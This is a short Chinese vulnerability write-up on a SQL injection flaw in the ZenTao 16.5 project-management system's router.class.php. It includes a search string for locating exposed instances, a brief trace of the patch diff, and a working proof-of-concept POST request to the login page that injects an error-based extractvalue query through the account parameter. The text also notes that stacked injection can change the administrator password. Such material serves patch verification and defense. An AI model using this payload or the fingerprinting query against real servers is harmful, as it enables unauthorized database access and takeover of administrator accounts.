

# 禅道 16.5 router.class.php SQL注入漏洞

## 漏洞描述

禅道 16.5 router.class.php 文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息，危害服务器安全

## 漏洞影响

<a-checkbox checked>禅道 16.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="易软天创-禅道系统"</a-checkbox></br>

## 漏洞复现

登录页面


`16.5 到 16.5.1 版本`更新了 `framework/base/router.class.php` 文件


`account参数`使用了`quote方法`进行过滤SQL语句


可以看到这个方法主要是对字段加转义，所以可以推断 16.5 版本中存在SQL注入, 跟踪调试测试SQL注入


验证POC如下, 其中同样存在堆叠注入，通过SQL语句可修改管理员密码等

```java
POST /user-login.html

account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%29%29%23
```

